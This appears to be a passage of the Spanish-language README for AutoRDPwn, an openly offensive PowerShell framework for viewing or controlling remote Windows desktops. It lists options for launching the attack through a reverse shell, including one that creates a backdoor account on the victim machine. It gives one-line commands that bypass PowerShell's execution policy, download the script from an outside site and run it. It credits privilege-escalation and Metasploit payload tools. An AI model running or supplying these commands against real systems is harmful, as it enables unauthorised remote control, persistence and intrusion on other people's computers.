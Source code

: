 Al utilizarse de forma remota en una shell inversa, es necesario utilizar los siguientes parámetros:

| Parámetro               | Descripción                                                                                  | 
| :---------------------- | :------------------------------------------------------------------------------------------- | 
| **-admin / -noadmin**   | Dependiendo de los permisos de los que dispongamos, utilizaremos una u otra                  |
| **-nogui**              | Esto evitará cargar el menú y algunos colores, garantizado su funcionalidad                  | 
| **-lang**               | Elegiremos nuestro idioma (English, Spanish, French, German, Italian, Russian o Portuguese)  |
| **-option**             | Al igual que con el menú, podremos elegir de que forma lanzar el ataque                      |
| **-shadow**             | Decidiremos si queremos ver o controlar el equipo remoto                                     |
| **-createuser**         | Este parámetro es opcional, creará el usuario AutoRDPwn:AutoRDPwn en el equipo víctima       |

**Ejecución local en una línea:**
```
powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"
```

**Ejemplo de ejecución remota en una línea:**
```
powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1 -admin -nogui -lang Spanish -option 4 -shadow control -createuser"
```


**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Capturas de pantalla
![AutoRDPwn1_es](https://raw.githubusercontent.com/JoelGMSec/AutoRDPwn/master/Resources/Screenshots/AutoRDPwn1_es.PNG)
![AutoRDPwn2_es](https://raw.githubusercontent.com/JoelGMSec/AutoRDPwn/master/Resources/Screenshots/AutoRDPwn2_es.PNG)


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
Este framework utiliza los siguientes scripts y herramientas:

• Chachi-Enumerator de **Luis Vacas** -> https://github.com/Hackplayers/PsCabesha-tools

• Get-System de **HarmJ0y & Matt Graeber** -> https://github.com/HarmJ0y/Misc-PowerShell

• Invoke-DCOM de **Steve Borosh** -> https://github.com/rvrsh3ll/Misc-Powershell-Scripts

• Invoke-MetasploitPayload de **Jared Haight** -> https://github.com/jaredhaight/Invoke-MetasploitPayload
